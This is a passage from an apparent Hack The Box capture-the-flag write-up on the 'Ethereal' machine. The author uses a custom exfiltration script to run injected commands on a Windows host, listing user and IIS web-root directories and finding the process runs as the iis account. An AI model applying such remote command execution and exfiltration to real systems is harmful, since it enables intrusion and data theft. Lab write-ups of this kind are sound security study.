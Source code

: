 **dir c:\users\alan**
```
$> dir /b c:\users\alan
(col#)> 
[+] Receiving data:
b'Contacts'
b'Desktop'
b'Documents'
b'Downloads'
b'Favorites'
b'Links'
b'Music'
b'Pictures'
b'Saved'
b'Searches'
b'Videos'
```

**dir c:\users\alan\desktop**
```
$> dir /b c:\users\alan\desktop
(col#)> 
[+] Receiving data:
b'note-draft\x03txt'
```

Too bad, there's no flag... let's keeping looking.

**dir c:\inetpub\wwwroot**
```
$> dir /b c:\inetpub\wwwroot
(col#)> 
[+] Receiving data:
b'corp'
b'default\x04aspx'
b'p1ng'
timed out
```

Interesting, there's a directory `p1ng`, let's check check it out:

![](/assets/images/htb-writeup-ethereal/web3.png)

Wow, so we didn't even need the credentials from the password manager have we known this hidden path.

I got really stuck at this point and spent the next several hours trying to find ways to get a proper shell, or find hidden files that would allow me to get unstuck. I didn't get far until at some point after I had switched the path invoked by the script to use the unauthenticated page on port 80, I realized that the `whoami` output I was now getting was different.

```
root@darkisland:~/hackthebox/Machines/Ethereal# ./exfil_iis.py 
$> whoami
(col#)> 
[+] Receiving data:
b'iis'
```
